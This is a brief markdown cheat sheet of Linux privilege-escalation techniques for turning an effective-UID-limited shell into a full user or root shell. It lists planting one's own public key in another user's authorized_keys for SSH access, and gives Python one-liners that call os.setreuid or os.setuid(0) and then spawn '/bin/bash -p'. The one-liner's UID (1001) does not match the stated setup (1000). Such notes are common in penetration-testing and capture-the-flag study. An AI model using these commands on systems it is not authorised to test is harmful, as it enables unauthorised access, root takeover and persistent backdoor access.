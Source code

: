 # Techniques to Escape EUID Limited Shell to UID Shell

## For normal euid
## ===============
1) using public key authentication technique to escape
-check the .ssh if we have write permission on authorized_keys
-write our own public key into the authorized_keys file
-ssh into the user with our own private key
//notes: the public/private key can be generated using ssh-keygen

2) using python to setreuid to escape
/*
current setup
-------------
euid user: 1000(Eve)
uid user: 33 (www-data)
*/

rough idea how it works executing step by step:

$python

\>\>import os

\>\>os.setreuid(1000,1000)	#setreuid(ruid,euid)

\>\>os.system("/bin/bash -p")

one line command:
>python -c 'import os;os.setreuid(1001,1001);os.system("/bin/bash -p")'

## For root euid
## =============
1) can use the normal euid user technique
2) use python to setuid & escape EUID limited shell

rough idea how it works executing step by step:

#python

\>\>import os

\>\>os.setuid(0)

\>\>os.system("/bin/bash -p")

one line command:
>python -c 'import os;os.setuid(0);os.system("/bin/bash -p")'

